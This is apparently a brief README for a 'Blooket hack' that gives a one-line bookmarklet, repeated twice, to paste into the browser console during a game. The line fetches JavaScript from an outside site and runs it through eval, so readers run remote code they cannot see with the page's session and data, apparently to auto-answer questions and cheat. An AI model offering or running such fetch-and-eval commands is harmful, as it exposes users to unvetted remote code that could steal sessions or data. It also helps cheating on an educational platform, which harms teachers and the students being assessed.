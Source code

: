 # blooket-hack-auto-awser-working
copy and paste this into the console after game start                                                                            javascript:fetch('https://www.gbasil.dev/api/blooket/bookmarklet').then(res => res.text().then(t => eval(t)))
javascript:fetch('https://www.gbasil.dev/api/blooket/bookmarklet').then(res => res.text().then(t => eval(t)))
